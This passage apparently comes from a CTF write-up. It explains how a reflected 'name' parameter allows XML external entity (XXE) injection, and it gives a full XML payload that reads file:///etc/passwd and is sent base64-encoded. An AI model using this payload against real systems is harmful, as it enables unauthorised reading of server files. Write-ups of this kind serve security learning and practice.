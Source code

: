 Also, the name param is reflected back in the response. So we can inject our xml entity inside the user tag to make the server reflect whatever we want.

![alt text](/commons/posts/2024-03-22-yukthi-ctf-writeups/image-18.png)

Base64 encoding the xml like following and sending it to the server will get us the file we intend to read.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
      <userdata>
        <name>&xxe;</name>
        <mail>test</mail>
        <subject>test</subject>
        <comments>test</comments>
      </userdata>
```